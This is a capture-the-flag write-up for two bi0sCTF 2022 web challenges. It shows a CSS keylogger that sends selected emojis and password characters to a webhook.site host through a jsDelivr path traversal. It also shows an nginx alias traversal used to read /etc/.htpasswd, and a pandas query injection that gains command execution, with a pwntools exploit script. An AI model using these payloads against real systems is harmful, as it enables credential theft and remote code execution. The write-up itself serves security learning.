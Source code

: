 # bi0sCTF 2022

URL: https://ctf.bi0s.in/

Team: Kalmarunionen

Place: 7 (of 294)

## Challenge: Emo-Locker

> All new emoji-based authentication service. See if you can get the admin's emojis. 🥷

In `index.js` we see this change theme logic:

```jsx
class Main extends React.Component {
    constructor(props) {
        super(props);

        let link_obj = document.createElement("link");
        link_obj.rel = "stylesheet"
        this.state = {
            link_obj: link_obj
        };

        this.switchTheme = this.switchTheme.bind(this);
    }

    componentDidMount() {
        document.head.appendChild(this.state.link_obj);
        window.addEventListener("hashchange", this.switchTheme, false);
    }

    switchTheme() {
        this.setState((prevState) => {
            let href = `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/${window.location.hash.replace("#", '')}-mode.css`;
            prevState.link_obj.href = href;
            return {}
        });
    }

	// ...
}
```

So we can load `http://web.chall.bi0s.in:10101/#dark` to get dark-mode.

But jsDelivr has a great feature for bypassing CSP/etc, which is the _CDN-for-any-GitHub_-feature:

> jsDelivr CDN service’s base URL is `https://cdn.jsdelivr.net/gh/{username}/{repo}/`, where you replace `{username}` with the GitHub username and `{repo}` with the repository name for the project.

So if I create repo 'hax' under my GitHub profile and add a file called 'a-mode.css', it can be loaded using: `http://web.chall.bi0s.in:10101/#../../gh/NicolaiSoeborg/hax/a`

I.e. `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/../../gh/NicolaiSoeborg/hax/a-mode.css`

### CSS-based Keylogger

Normally one would do:

```css
input[type="password"][value$="bi0sctf{a"] {
  background-image: url("http://webhook.site/callback?data=a");
}
input[type="password"][value$="bi0sctf{b"] {
  background-image: url("http://webhook.site/callback?data=b");
}
input[type="password"][value$="bi0sctf{c"] {
  background-image: url("http://webhook.site/callback?data=c");
}
/* ... */
```

But in this case the password input field is replaced with `*` and the secret emoji sequence is stored in a local state.
When an emoji is selected, the corresponding HTML element is cleared so the emoji can only be picked once. We can use the CSS selector `:empty` to find these elements, i.e. `span[role="img"][aria-label="1"]` is the first emoji and `span[role="img"][aria-label="1"]:empty` is the selector for when the emoji is picked.

Using this we change the `a-mode.css` file to:

```css
span[role="img"][aria-label="1"]:empty { background-image: url("https://webhook.site/cb…61?data=1"); }
span[role="img"][aria-label="2"]:empty { background-image: url("https://webhook.site/cb…61?data=2"); }
span[role="img"][aria-label="3"]:empty { background-image: url("https://webhook.site/cb…61?data=3"); }
span[role="img"][aria-label="4"]:empty { background-image: url("https://webhook.site/cb…61?data=4"); }
span[role="img"][aria-label="5"]:empty { background-image: url("https://webhook.site/cb…61?data=5"); }
span[role="img"][aria-label="6"]:empty { background-image: url("https://webhook.site/cb…61?data=6"); }
span[role="img"][aria-label="7"]:empty { background-image: url("https://webhook.site/cb…61?data=7"); }
/* ... */
```

And watch the requests coming in whenever an emoji is selected.
The secret sequence is "51,32,73,34,85,126,17,158,79,50" (😔 🫢 😕🤫😧🙊🤩💬😯😌) which we can use to login ourself and get the flag: `bi0sctf{a34522e2009192570c840f931e4c3c0a}`

## Challenge: PyCGI

> Hope its working. Can you check?

We get the following nginx config (simplified):

```nginx
http {
    sendfile        on;

    server {
        listen       8000;
        server_name  localhost;

        location / {
                autoindex on;
                root /panda/;
        }

        location /cgi-bin/ {
                gzip off;
                auth_basic           "Admin Area";
                auth_basic_user_file /etc/.htpasswd;

                include fastcgi_params;
                fastcgi_param SCRIPT_FILENAME /panda/$fastcgi_script_name;
        }

        location /static {
                alias /static/; 
        }
    }
}
```

We see that it has a common misconfiguration: the `alias` block is missing a tailing slash in the location specifier!
This means we can request `http://instance.chall.bi0s.in:10438/static../etc/.htpasswd` which isn't normalized so we can fetch files 'one dir up', luckily a dir up is the root, so we can fetch `/etc/.htpasswd`.

The password hash stored in .htpasswd is: `admin:$apr1$usrUW0sL$XToLdRz.YCRy5TCvpI8UK0`. Initially we could not crack it, but my teammate spotted something odd in `/docker-entrypoint.sh`:

```bash
mv flag.txt $(head /dev/urandom | shasum | cut -d' ' -f1)

htpasswd -mbc /etc/.htpasswd admin Â­

spawn-fcgi -s /var/run/fcgiwrap.socket -M 766 /usr/sbin/fcgiwrap 

/usr/sbin/nginx

while true; do sleep 1; done
```

What is that weird Â? It is the password! (non-printable in my terminal). Byte sequence: `\xc2\xad`.

Status so far:
 * We can read arbitrary files due to nginx misconfiguration
 * We can run scripts in `cgi-bin/` with Basic Authentication
 * Flag has a randomized filename, so we need RCE to get it

### CGI scripts

In the cgi-bin folder we see a script called `search_currency.py`:

```python
from server import Server
import pandas as pd

try:
    df = pd.read_csv("../database/currency-rates.csv")
    server = Server()
    server.set_header("Content-Type", "text/html")
    params = server.get_params()
    assert "currency_name" in params
    currency_code = params["currency_name"]
    results = df.query(f"currency == '{currency_code}'")
    server.add_body(results.to_html())
    server.send_response()
except Exception as e:
    print("Content-Type: text/html")
    print()
    print("Exception")
    print(str(e))
```

It uses a very simple home-made python server to serve requests.
We can send a `currency_code` parameter which will be injected directly to a `DataFrame.query` statement.

Underneath the hood, `.query` uses `pandas.eval` which some people believe is safe:

> "`pandas.eval` is not as dangerous as it sounds. Unlike python’s eval `pandas.eval` cannot execute arbitrary functions.

But this is not true!
We can use `@` to reference local variables, so e.g. this would work:

```python
import os

currency_code = "DKK' or @os.system('ls') or '1' == '1"
df.query(f"currency == '{currency_code}'")
```

But we don't have `os` imported as a local variables :/
Instead we can try with reflections:
 * `@df.__class__.__init__.__globals__['__builtins__']['exec']('import os; os.system("ls")')`

Or even better, my teammate also found this short path to `os`:
 * `@pd.io.common.os.system('ls')`

Finally we needed to make a raw HTTP request because the server didn't URL decode parameters.
Exploit is:

```python
from pwn import *

io = remote("instance.chall.bi0s.in", 10889, level="debug")
io.send(b"""\
GET /cgi-bin/search_currency.py?currency_name={}'.format(@pd.io.common.os.system('ls /'))# HTTP/1.1
Host: instance.chall.bi0s.in:10889
Authorization: Basic YWRtaW46wq0=

""")

io.interactive()
```

This turns: `df.query(f"currency == '{currency_code}'")` into `df.query(f"currency == '{}'.format(@pd.io.common.os.system('ls /'))#'")`.

Flag: `bi0sctf{9a18559a42e7302b15eeb45c09ab39d6}`
